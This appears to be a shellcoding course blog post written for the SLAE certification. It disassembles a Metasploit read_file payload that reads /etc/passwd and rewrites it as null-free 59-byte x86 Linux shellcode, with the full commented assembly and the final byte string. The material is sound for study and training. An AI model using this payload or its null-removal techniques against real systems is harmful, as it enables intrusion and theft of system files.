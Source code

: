 

# Analyze: Read File

# Create shellcode
```bash
msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd
```


# Analysis

## Disassemble w/ bash
```bash
echo -n "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00" | ndisasm -u -
```

## Disassembled Assembly

```assembly
00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```

Here I will dissect the assembly piece by piece, followed by a commented version of theh code in entirety.



## Disassembled (UPDATED)

Here I have cleaned and commented the code, as well as put it in a .nasm format.

I noticed there were a lot of null bytes in the shellcode generated from msfvenom, so my polymorphic code revolves around removing those null bytes.

The first substitution I made is replacing an `xor` with a `sub` to zero out the `ecx` register. Note that this strategy may not work with all CPUs.

```assembly
; xor ecx,ecx     ; replace xor instruction
sub ecx,ecx
```

Next, the original shellcodes does the jmp, call, pop technique to get a pointer to a string. The string is the filename to be read. In this case, I want to remove null bytes from my shellcode, thus I will push values to the stack and move the stack pointer into my register. To push the string terminating null, I will load the string "/etc//passwd" onto the stack and get a pointer to it's address.

```assembly
; pop ebx         ; <addr> 0x3D (filename from stack)
xor ebx, ebx
push ebx
push 0x64777373         ; "dwss"
push 0x61702f2f         ; "ap//"
push 0x6374652f         ; "cte/" 
mov ebx, esp
```

Note that I have pushed an entire dword of `0x00000000` to the stack as a string terminator by the `push ebx` instruction. Interestingly, I tried to rewrite this to push only a single `0x0` to the stack. I ended up with this code that will essentially load a `0xff` into `ebx` that will be shifted out for a null and placed onto the stack as a null terminator.

```assembly
mov ebx, 0x647773ff  
shr ebx, 0x8
push ebx
push 0x7361702f         
push 0x6374652f         

mov ebx, esp
```

Unfortunately, this is an extra byte in length than the alternative solution above, so I opted not to use it. But it was fun to work with the `shr` instruction and get another polymorphic variation working.

Then, I change the `mov, 0x3` with an `xor` to clear the register and `mov al, 0x3` to move the value of 3 into the register without having zeros in the shellcode.

```assembly
; mov eax,0x3     ; read()
xor eax, eax
mov al, 0x3
```

Similar to the above strategy, I remove a `mov edx, 0x1000` with a `mov dh, 0x10` to remove nulls in the shellcode and have the same result.

```assembly
    ; mov edx,0x1000  ; buf = 4096
    mov dh, 0x10
```

I again use the same trick as before to replace the `mov eax, 0x4` instruction:
   
```assembly
; mov eax,0x4     
xor eax, eax
mov al, 0x4 
```
   
And again with ebx. Except this time since I need a value of 1 in the register, I will use the `inc` instruction to increment it after setting it to 0x0.

```assembly
; mov ebx,0x1     ; 1 = stdout (where to write output)
xor ebx, ebx
inc ebx
```

I do the same thing for the eax register later in the assembly code.

```assembly
; mov eax,0x1 
xor eax, eax
inc eax
```

I then replace a `mov ebx, 0x0` with an `xor` to remove null bytes in this instruction.

```assembly
; mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
xor ebx, ebx
```

And that's it for the changes.

## Disassembled (Cleaned and commented)

Here I have cleaned and commented the final `.asm` code. I have left the instructions I replaced commented out.

```assembly
global _start

section .text
_start:
    ;mov eax, 0x5
    push 0x5
    pop eax


    ; pop ebx         ; <addr> 0x3D (filename from stack)
    xor ebx, ebx
    push ebx
    push 0x64777373         ; "dwss"
    push 0x61702f2f         ; "ap//"
    push 0x6374652f         ; "cte/" 
    mov ebx, esp

    ; xor ecx,ecx     ; replace xor instructions
    sub ecx,ecx
    int 0x80        ; call open() 

    mov ebx,eax     ; ebx now holds file descriptor

    ; mov eax,0x3     ; read()
    xor eax, eax
    mov al, 0x3
                    ; man 2 read
                    ; ssize_t read(int fd, void *buf, size_t count);
    mov edi,esp     
    mov ecx,edi     ; ptr to stack : returned file content will fill this buffer
    ; mov edx,0x1000  ; buf = 4096
    mov dh, 0x10
    int 0x80        ; call read()

    mov edx,eax     ; edx holds number of bytes returned from read()

    ; mov eax,0x4     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 4$"
    xor eax, eax
    mov al, 0x4 
                    ; write()
                    ; man 2 write
                    ; ssize_t write(int fd, const void *buf, size_t count);
    ; mov ebx,0x1     ; 1 = stdout (where to write output)
    xor ebx, ebx
    inc ebx

    int 0x80        ; call write() 
                    ; NOTE: ecx still points to stack (buffer to write)

    ; mov eax,0x1     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 1$"
    xor eax, eax
    inc eax

                    ; man exit
                    ; void exit(int status);
    ; mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
    xor ebx, ebx

    int 0x80        ; call exit()
```

## New Shellcode

```c
"\x6a\x05\x58\x31\xdb\x53\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x29\xc9\xcd\x80\x89\xc3\x31\xc0\xb0\x03\x89\xe7\x89\xf9\xb6\x10\xcd\x80\x89\xc2\x31\xc0\xb0\x04\x31\xdb\x43\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80"
```


## Conclusion

Metasploit payload was 73 bytes with nulls.

My new shellcode is 59 bytes without nulls.



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: PA-29350

